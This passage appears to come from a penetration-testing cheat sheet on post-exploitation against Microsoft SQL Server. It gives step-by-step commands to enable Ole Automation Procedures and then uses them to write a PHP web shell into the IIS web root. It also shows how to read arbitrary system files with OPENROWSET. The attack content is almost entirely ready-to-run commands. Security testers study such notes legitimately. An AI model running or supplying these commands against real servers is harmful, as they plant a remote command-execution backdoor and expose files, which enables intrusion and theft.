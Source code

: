 >Look for more details and approaches in the `xp_cmdshell` section
{: .prompt-tip }


### MSSQL Write Local Files
We need to enable Ole Automation Procedure which requires **admin privileges**

##### MSSQL - Enable Ole Automation Procedures

```cmd
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### MSSQL - Create a File
```cmd
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### MSSQL Read a File

By default, MSSQL allows file read on any file in the operating system to which the account has read access. 

```cmd 
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

```






















